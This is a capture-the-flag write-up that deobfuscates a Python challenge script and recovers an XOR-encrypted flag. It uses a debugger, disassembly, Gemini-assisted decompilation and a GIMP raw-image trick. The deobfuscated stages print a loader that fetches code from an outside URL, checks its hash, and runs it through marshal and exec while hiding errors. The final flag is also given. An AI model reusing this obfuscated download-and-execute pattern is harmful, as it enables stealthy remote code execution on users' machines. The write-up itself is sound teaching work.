



# Obfuscated

## Table of contents

- [Task](#task)
- [Solution](#solution)
  - [AI Ready To Help](#ai-ready-to-help)
  - [GIMP Coming To The Rescue](#gimp-coming-to-the-rescue)
- [Lessons learned](#lessons-learned)


## Task

> Within the encrypted depths of this obscured script lies a hidden message.
> 
> _Note: tested on Ubuntu 22.04/Python 3.10.12. Python versions other than 3.10 may cause issues._

Attachements: 
- [1.py](1.py)


## Solution

What we got is the obfuscated source code of some python program. We can start with replacements done by the script:
```py
"<scriptcode>".replace(10*"a", "()") \
.replace(9*"a", "__getattr__") \
.replace(7*"a", "for") \
.replace(6*"a", "return") \
.replace(5*"a", "global") \
.replace(4*"a", "class") \
.replace(3*"a", "def")
```

And we get:

```python
def z(a): 
 for n in a: YBEQ0gNy()[n]()
def b(): global YBEOQgNy; YBEOQgNy = eval("".join(map(chr, [103, 101, 116, 97, 116, 116, 114])))
def y(): global YBE0QgNy; YBE0QgNy(b"\x99\x81\x95\x84\x96\x94".decode(x().p.c.C.H.D._))
def c(): global YBEQ0gNy; YBEQ0gNy = eval("".join(map(chr, [103, 108, 111, 98, 97, 108, 115])))
def a(i): return "".join([chr(122 - int(n)) for n in str(i)])
def ab(): return YBEoQgNy(1, g(3).b.a.b.b.a.c.b.b.b._)
Ybeq0gny = "cbdqynjklmiopht"
def q(): global YBE0QgNy; YBE0QgNy = vz(b"mm\x89\x94\x97\x96\x99\xa3mm".decode(x().p.c.C.H.D._))
def e(): global ybEOQgNy; ybEOQgNy = b"\x07,^\xce;c\x8em\xbc"
def d():
 global ybEOQgNy; ybEOQgNy, i = YBEOQgNy(YBEQ0gNy()['_a_bscndietflgihuibj_k_'[::2][::-1]], "_aa_bbdedil4cuwtdc_ls_"[::3]), 0
 for k in ybEOQgNy: i += 1; YBEQ0gNy()[a(i := i+1)] = ybEOQgNy[k]
def n(): global YBe0QgyN; YBe0QgyN = YBE0QgNy(x().e.n.a.q.b.z._)
c()
z(Ybeq0gny[1:3])
class x():
 def __init__(s): YBEQ0gNy()["s"] = yux()
 def __getattr__(c, k):
          if k == "_": return YBEQ0gNy()["s"]
          elif rx(k) in yvx(65, 90): YBEQ0gNy()["s"] += wz(rx(k) - 17)
          else: YBEQ0gNy()["s"] += wz(ywv("141", 8) + ((rx(k)-ywv("141", 8)+13)%26))
          return c
class g():
 def __init__(s, x): YBEQ0gNy()["n"] = 0; YBEQ0gNy()["X"] = x; YBEQ0gNy()["s"] = 0
 def __getattr__(c, k):
  if k == "_": return YBEQ0gNy()["s"]
  else: YBEQ0gNy()["s"] += (rx(k) - 97)*X**n; YBEQ0gNy()["n"] += 1; return c
z(Ybeq0gny[3:6])
def m(): global d; d = b'\x1a\x04\x04\x01\x06\x14\r\r\x06\x18\x0c\x13\x01\x07\r\x0f\x15\x0b\t\x05\x05\x06\n\x08\x15\x12\x16\x00\x02\x17\x1b'
class l():
 def __init__(s):
      for _ in yvx(g(7).d.d.c.h._): YBEoQgNy(1, g(3).b.a.b.b.a.c.b.b.b._); s.x = 0
 def f(s): s.x = (636416793005*s.x+17)%(2**64); return s.x
def k(): global YBEoQgNy; YBEoQgNy = YBEOQgNy(YbEOQgNy, x().e.n.a.q.v.a.g._)
def j(): global YbEOQgNy; YbEOQgNy = YBEOQgNy(YBe0QgyN, wz(82) + x().n.a.q.b.z._)(g(10).i.h.g.a.c.a.e.d.b.a.d.a.b.c.g.i.c.d.f._)
z(Ybeq0gny[6:10])
def o(): global rr; rr = [2, 10, 88, 144, 12, 74, 53, 44, 51, 48, 136, 53, 243, 221, 16, 48, 170, 146, 203, 83, 101, 218, 120]
def ac(*args): f(yux.join(yux(), [u[n] for n in d]), *args)
class i():
     def __init__(s): global u; u = "1pQptgslzcTui/sKs/V.:78Ef/hHgt7"; s.x=0
     def f(s): s.x = (30013*s.x+14)%(2**128); return s.x
z(Ybeq0gny[10:12])
r = b'\xc9N`\x06B\x820\x0fe\xc2\xd7\xdf\xa0\xe5\xbc\xee\xa2+\xa9~\x9e>\xdd}LgC>\xf7M\xb4IT\x0e?{\xca\x1d\xc52o\xc62b\x82V~\x14\xd0U%Xr\x9a\x11I\x9a]p\xbc\xfb\xc3\xba.\xac\xfa\xfd\x98\xa2/\x9d\x81\xe0\xac.N\xa4\xa3\xe9\xf0\xed\xb
8\xd9;\x05LFP\xf5\x03Z\x99\x15\xe5>\x89a\xe2c\xcb\xb5\x9f\xa1\x9b\xe4\xd6\xde*g\xeb\x01U\xbd``\xe1"\xe0\xd7\xb4A\xb6\x81!iq\x8cm\x1a\x8bq\x1b{5k=\xc9RO\xb0\x964t$\r\x83x\xa0c\xd9\xb0\x94\xb54\x96\r^\xf9\x92\xb6\xd8$\xabj\xa4\xe3
b\xc4\xab\xc3\xc0Z&H\\\r\xc6\x16&\x12U]\xc0`\xd2"H\xbb2\x1a*\xaa\xc4\x03\xe0\x8b\n\x81\xa5Y\x9c\xee\xff\x9b\xd0H#Y\xad\x07\x12\xef\xe68^[d\x85l<\xd29n\xb0m\x10\x9d\x99\xc4t@\xe0\xe9\x82 \x0e\xeeA:\x11\x9fZ\xc4\xa3v^\xed>\xf1\xb8
s\xf0\x84\x04,.\xa1Z6?\x0b\x14\\\x17\xd0\x9c\x1b\x7fI\x0f\xa5/\x8b,\x91\xc5|\xa7Q\x8a\x9f\xc9U\xd8\xea\xf6=\xb7\xbb\xd2\x90\xa1\x0e\toV\xc2\xfaR\xb4\xf2\x81f\xfb\xde\xc8-\x9b\x87`\xc1w\xad7\x1eS\\!\xbexC\xd0\xd7\x93:X\x048\x9c4{
\x99\xb7\xe4\xc2\xe0\xa1+\xc0dC|\xcbQ\x15\xa8\xe5XnP\x17\xc0\xf5+\xe5\xa2\xf2\xa3EgP\xd5\xbd\x12 \xfa\xb0M\xce\xd4r\x05\x8b\xaa>\x88\x1c\xc1\xd2[\x02tJL\xc6M\x1bq\xd1\xffn\xcd\xa9\x19\xdc\xbf\x1ca\xa2\xdfD\x05\xc0O\x8c\xc2JTx\xf
0N,uL\xc4\x87\n\x89\xd9\xe5\xb9\x95\xef9\\_Hdk.\xeb\xec\x98:"\x9f\x97#Z;\x87\x89\xfc\xb0Y<"\xaf\xec\xf3\x86\x9a[\xb5\xb4\xf5\xfe=\xa2\x8do\x19\xdbf\xad\x08\xb0\x87 Zn4\x9a\xb7\\=)\xac\x03\xae\x12-\xe11\xf3%k];\x1co~\x1a\xe1O\x1e
\x9biHe\xe6\xeb\xe2\x92\x1b\xe1\xe9\x8b\xf0\xf3U9_\xca\x9c\xd7J\xb7\xaa&\xa2\x03\xf0+XL\xc1G\xa8\xf9\xbd\rN\xbf\xbaHL;\xbdNgC\xf7l3(O\xd3$\xff\x04\xf6\x8c_\x83]\x04\xf7b[u\xd5\xb7\xedj\xff\xb8\xa2\xda\xc8\x81e\xf8\x1c\xa7\xae0\x
ca\xf4S&\x93"\xaax\x1e\xa1_$_e*\x96\xe2.O=\xa5o\xb1\xce\x81\xf3\x9e[\x9e(T\xdd\xa4\xe3\xda\xdaJ\xb3\x0fu\xe2P\xba/\x86F\xd5\x94\x9e\xfb\x12\xec\xfe\xaf\x1c\xb6\x1a\xfet\x11w\x9etbj%\x83>|\xef\x19\x12Yl\xf6\xbd^\xad\xaf\x0b1\xaec\xd6\x1c\x14C\x17\x18\xff\x00\x06\x03f\xf6'
def t(): global YBE0QGNy; YBE0QGNy = YBE0QgNy(x().o.n.f.r.G.E._)
class p():
 def __init__(s): global YBE0Qgyn; YBE0Qgyn = [159, 147, 145, 114, 150, 61, 72]
def h(): global YBE0QgyN; YBE0QgyN = YBE0QgNy(x().m.y.v.o._)
z(Ybeq0gny[13:16])
vx(YBEOQgNy(YBE0QGNy, x().o.G.E.q.r.p.b.q.r._)(YBEOQgNy(YBE0QgyN, x().q.r.p.b.z.c.e.r.f.f._)(yyt(yvv(rr)) + r)))
ac(ab())
```

Not bad! Still obfuscated, but much more clear. Then, after some time, by using debugger (_or print-to-debug_)
we can reveal the names hidden behind those symbols ([2.py](solution_files/2.py)):


_Note: I removed all the unused code which was never called_<br>
_Note 2: Probably it could be decoded further, but it is not needed at all_

```python
from random import Random

def z(a): 
 for n in a: 
     globals()[n]()

def a(i): 
     return "".join([chr(122 - int(n)) for n in str(i)])

def ab(): 
     return YBEoQgNy(1, 10000)

def d():
 global ybEOQgNy 
 ybEOQgNy, i = getattr(globals()['__builtins__'], "__dict__"), 0

 for k in __builtins__.__dict__: 
     i += 1 
     globals()[a(i := i+1)] = ybEOQgNy[k]

def n(): 
     global YBe0QgyN 
     YBe0QgyN = __import__('random')

z('d')

class x():
 def __init__(s): 
     globals()["s"] = yux()
 def __getattr__(c, k):
          if k == "_": 
               return globals()["s"]
          elif rx(k) in yvx(65, 90): 
               globals()["s"] += wz(rx(k) - 17)
          else: 
               globals()["s"] += wz(ywv("141", 8) + ((rx(k)-ywv("141", 8)+13)%26))
          return c

class l():
 def __init__(s): 
     for _ in yvx(2523): 
          YBEoQgNy(1, 10000)
          s.x = 0

def k(): 
     global YBEoQgNy
     YBEoQgNy = getattr(YbEOQgNy, 'randint')
def j(): 
     global YbEOQgNy
     YbEOQgNy = Random(5328621030134020678)

z('jkl')

def o(): 
     global rr
     rr = [2, 10, 88, 144, 12, 74, 53, 44, 51, 48, 136, 53, 243, 221, 16, 48, 170, 146, 203, 83, 101, 218, 120]

def ac(*args): 
     f('https://sfi.pl/K7ucggsTz7V81QEH', *args)

class i(): 
     def __init__(s): 
          s.x=0

z('io')
codetoexec = b'import urllib.request\nimport base64\nimport hashlib\nimport marshal\nimport types\n\np = b"MLeI3oxxoUodvwQ0"\ndd = "ab280cf138a9391afaeeadfccc3cdc0c7ceffa9c02ebc4483c03050ffd5808ee"\n\ndef f(u, c):\n    try:\n        a = 10547116428367238450560 // c\n        b = 3280413493030 // c\n        r = urllib.request.Request(u)\n        r.add_header("Authorization", "Basic " + base64.b64encode(p + b":" + str((a*b) % (c**4)).encode()).decode("utf-8"))\n        r.add_header("User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0")\n        c = urllib.request.urlopen(r).read()\n        d = hashlib.sha256(c).hexdigest()\n        if d == dd:\n            m = types.ModuleType("m")\n            exec(marshal.loads(c[16:]), m.__dict__)\n            print(exec(marshal.loads(c[16:]).__dict__, m.__dict__))\n            m.f(a, b)\n    except Exception:\n        pass\n\n'

vx(codetoexec)

ac(ab())
```

We see that under `codetoexec` there is some code that will be executed. Let's extract it to the separate file ([3.py](solution_files/3.py)):

```python
import urllib.request
import base64
import hashlib
import marshal
import types

p = b"MLeI3oxxoUodvwQ0"
dd = "ab280cf138a9391afaeeadfccc3cdc0c7ceffa9c02ebc4483c03050ffd5808ee"

# Arguments were taken from the previous code - extracted from the debugger
def f(u='https://sfi.pl/K7ucggsTz7V81QEH', c=1955):
    try:
        a = 10547116428367238450560 // c
        b = 3280413493030 // c
        r = urllib.request.Request(u)
        r.add_header("Authorization", "Basic " + base64.b64encode(p + b":" + str((a*b) % (c**4)).encode()).decode("utf-8"))
        r.add_header("User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0")
        c = urllib.request.urlopen(r).read()
        d = hashlib.sha256(c).hexdigest()
        if d == dd:
            m = types.ModuleType("m")
            code = marshal.loads(c[16:])
            exec(code, m.__dict__)
    except Exception as e:
        pass
f()
```

What we got here is just a pure python script that downloads some kind of precompiled python code, loads
it using `marshal` module and executes it. The problem it's nearly impossible to decompile it to the original
source code for humans.

<span style="font-size: 1.5em"><b><em>For humans.</em></b></span>

### AI Ready To Help

So what I did instead? I've run the code above (with some little changes) and saved the precompiled code gotten from 
the SFI website to the file. Then I converted it into `.pyc` file using [code found on stecman's gist](https://gist.github.com/stecman/3751ac494795164efa82a683130cabe5?permalink_comment_id=3505634).
On the `.pyc` file I've run [pydisasm](https://github.com/rocky/python-xdis/tree/master) with extended output. You can find it in the
[pydisasm_output.txt](solution_files/pydisasm_output.txt) file.

Then, I took the output and gave it to the gemini with the following prompt:

```
Given pydisasm input generate valid python source code:
<pydisasm output>
```

And what I got, after asking for additional formatting, surprised me a lot:



You can find the code in [geminis_code.py](solution_files/geminis_code.py) file.

I compared it with the pydisasm and uncompyle6 outputs, and it looked really promising! It even runs! 
Being hyped, I asked it to solve it for me. Unfortunately, it couldn't. But it suggested me that the bytestring might be 
xor-ciphered flag - and after I saw it, I was nearly obvious that's what I was looking for.

But how to decipher a XOR ciphered text? You could put the secret to /tmp/<somerandomstring>
and run the script, but this wasn't the case.

Fortunately, one day I watched [Gynvael's Coldwind](https://gynvael.coldwind.pl/) talk about a nearly identical case.

_I strongly recommend checking out Gynvael's work - he's doing an amazing job while popularizing IT security!_ 

### GIMP coming to the rescue

What Gynvael showed was the fact that after saving the encrypted content with `.data` extension, you can open it in GIMP
as a raw file. Then by setting color space to 8-bit grayscale and adjusting the width of the 'image', by starting from 1
and increasing, you want to achieve **straight vertical lines**.

_Hint: You'll need to zoom on the image to see them_

Unaligned _image_ (for the data from the challenge), `width=4`:


Aligned _image_ `width=8`:


Okay, so we know that the key has eight bytes. Now we can reuse the information about so-called 
**_known plain text_** - our flag. Why? Because:

- `original_data` XOR `key` = `encrypted_data`
- `encrypted_data` XOR `original_data` = `key`

Moreover, we know that the key has only eight bytes, so we will need only the first eight bytes of original
data. Since for standard UTF-8 characters, each character occupies only one byte, the first eight characters we'll
be enough to retrieve the key from encrypted data. Let's do it using [CyberChef](https://gchq.github.io/CyberChef/#recipe=XOR(%7B'option':'UTF8','string':'sfi19_ct'%7D,'Standard',false)To_Hex('Space',0)&input=6oTraVTVOM//mbYMK85t1MDS9h4%2Buh/hzpTwOiTHPuPXj/8&oeol=VT):



And now the only thing which left is to [XOR the encrypted data with the key](https://gchq.github.io/CyberChef/#recipe=XOR(%7B'option':'Hex','string':'99%20e2%2082%2058%206d%208a%205b%20bb'%7D,'Standard',false)&input=6oTraVTVOM//mbYMK85t1MDS9h4%2Buh/hzpTwOiTHPuPXj/8&oeol=FF) we retrieved (first eight bytes of the output):



And we got our flag!

Flag: **_sfi19_ctf{4TFD6oY0tFS0DZWvrbIMeXNm}_**


## Lessons learned:
- GPT's can sometimes do better than you thought
- It's good to learn from more experienced players
- Finally, got a chance to test GIMP method in practice